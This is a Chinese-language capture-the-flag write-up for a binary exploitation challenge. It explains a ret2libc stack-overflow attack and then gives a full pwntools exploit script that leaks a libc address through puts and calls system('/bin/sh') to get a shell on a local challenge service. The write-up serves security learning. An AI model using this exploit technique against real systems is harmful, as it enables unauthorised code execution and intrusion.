

## flag

flag{163285b5-8dd9-4765-86fb-931a95738443}

## 解題步驟

題目是一個簡單的ret2libc，main函數中存在棧溢出，題目存在system函數，但無/bin/sh字元串，選擇 棧溢出，控制執行流去把rdi設置為puts函數的got表，然後去執行puts函數洩露puts函數的真實位址， 通過LibcSearcher找到和適的libc版本，減去偏移得到libc基地址，執行完成後， 把程式再次返回到主函 數，再次棧溢出，去把rdi佈置為用libc找到的binsh位址，然後執行system函數，但在執行過程中，會遇 到棧對齊，在rop鏈中加一條ret指令即可，成功getshell

exp:

```python
from pwn import *
from LibcSearcher import *
context(arch='amd64', os='linux', log_level='debug')
# p=process("./pwn")
p=remote("127.0.0.1",9999)
e=ELF("./pwn")
libc=ELF("./libc.so.6")
pop_rdi=0x0000000000400843
vuln=0x4006E1
main=0x04006A8
puts_got=0x600c48
puts_plt=0x400520
payload=b'a'*0x28+p64(pop_rdi)+p64(puts_got)
payload+=p64(puts_plt)+p64(main)
# gdb.attach(p)
p.sendafter('flag\n',payload)

addr=u64(p.recv(6).ljust(0x8,b'\x00'))
print("=========================>",hex(addr))

addr=addr-libc.sym['puts']
print("=========================>",hex(addr))

ret=0x000000000040050e
binsh=addr+next(libc.search(b"/bin/sh\x00"))
system=addr+libc.sym['system']
pop_rax=0x000000000001b500+addr

payload1=b'a'*0x28+p64(pop_rdi)
payload1+=p64(binsh)+p64(ret)
payload1+=p64(system)

p.sendline(payload1)
p.interactive()

```



